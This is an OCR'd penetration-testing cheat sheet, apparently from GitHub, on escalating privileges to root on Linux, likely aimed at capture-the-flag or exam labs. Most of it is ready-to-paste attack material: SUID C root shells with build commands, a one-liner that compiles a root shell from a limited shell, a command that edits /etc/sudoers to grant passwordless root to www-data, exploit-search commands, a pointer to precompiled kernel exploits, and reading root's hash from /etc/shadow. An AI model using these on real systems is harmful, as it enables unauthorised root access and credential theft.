 -   Local Privilege Escalation Exploit in Linux

    -   **SUID** (**S**et owner **U**ser **ID** up on execution)  
        Often SUID C binary files are required to spawn a shell as a
        superuser, you can update the UID / GID and shell as required.  
          
        below are some quick copy and paste examples for various
        shells:  
          
        SUID C Shell for /bin/bash  
          
        int main(void){  
        setresuid(0, 0, 0);  
        system("/bin/bash");  
        }  
          
        SUID C Shell for /bin/sh  
          
        int main(void){  
        setresuid(0, 0, 0);  
        system("/bin/sh");  
        }  
          
        Building the SUID Shell binary  
        gcc -o suid suid.c  
        For 32 bit:  
        gcc -m32 -o suid suid.c

    -   Create and compile an SUID from a limited shell (no file
        transfer)  
        echo "int main(void){\\nsetgid(0);
        setuid(0);\\nsystem(\\"/bin/sh\\");\\n}" &gt;privsc.c  
        gcc privsc.c -o privsc

-   Add users to Root SUDO group with no password requirement  
    echo 'chmod 777 /etc/sudoers && echo "www-data ALL=NOPASSWD:
    ALL" &gt;&gt; /etc/sudoers && chmod 440 /etc/sudoers' &gt;
    /tmp/update
    
 -   SearchSploit  
     searchsploit –uncsearchsploit apache 2.2  
     searchsploit "Linux Kernel"  
     searchsploit linux 2.6 | grep -i ubuntu | grep local  
     searchsploit slmail

 -   Kernel Exploit Suggestions for Kernel Version 3.0.0  
     ./usr/share/linux-exploit-suggester/Linux\_Exploit\_Suggester.pl -k 3.0.0

-   Precompiled Linux Kernel Exploits  - ***Super handy if GCC is not installed on the target machine!***

    [*https://www.kernel-exploits.com/*](https://www.kernel-exploits.com/)    

-   Collect root password  
    cat /etc/shadow |grep root
    
-   Find and display the proof.txt or flag.txt - LOOT!
    `cat ``find / -name proof.txt -print```
